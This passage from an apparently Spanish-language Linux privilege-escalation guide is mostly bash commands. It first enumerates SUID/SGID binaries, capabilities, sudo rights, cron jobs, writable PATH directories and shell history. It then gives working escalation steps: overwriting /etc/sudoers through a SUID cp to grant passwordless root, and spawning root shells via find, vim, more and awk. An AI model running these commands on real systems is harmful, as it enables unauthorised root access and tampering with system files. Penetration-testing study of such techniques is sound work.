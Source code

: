 ```bash
echo "[+] Servicios activos:"
systemctl list-units --type=service --state=active

# Archivos con permisos SUID/SGID
echo "[+] Binarios SUID/SGID:"
find / -perm -4000 -type f 2>/dev/null
find / -perm -2000 -type f 2>/dev/null

# Capacidades especiales
echo "[+] Capacidades de archivos:"
getcap -r / 2>/dev/null

# Sudo permissions
echo "[+] Permisos sudo:"
sudo -l 2>/dev/null

# Cron jobs
echo "[+] Tareas programadas:"
cat /etc/crontab 2>/dev/null
ls -la /etc/cron* 2>/dev/null
crontab -l 2>/dev/null

# Variables de entorno
echo "[+] Variables de entorno:"
env | grep -i path

# Archivos escribibles en PATH
echo "[+] Archivos escribibles en PATH:"
echo $PATH | tr ":" "\n" | xargs -I {} find {} -writable 2>/dev/null

# Historial de comandos
echo "[+] Historial de comandos:"
cat ~/.bash_history 2>/dev/null | head -20
```

### 2. Explotación de Binarios SUID

```bash
# Buscar binarios SUID vulnerables
find / -perm -4000 -type f 2>/dev/null

# Ejemplos comunes de escalada:

# 1. /bin/cp con SUID
echo 'user1 ALL=(ALL) NOPASSWD:ALL' > /tmp/sudoers
/bin/cp /tmp/sudoers /etc/sudoers

# 2. /usr/bin/find con SUID
/usr/bin/find /home -exec "/bin/sh" \;

# 3. /usr/bin/vim con SUID
/usr/bin/vim -c ':!/bin/sh'

# 4. /bin/more con SUID
/bin/more /etc/passwd
!/bin/sh

# 5. /usr/bin/awk con SUID
/usr/bin/awk 'BEGIN {system("/bin/sh")}'
```
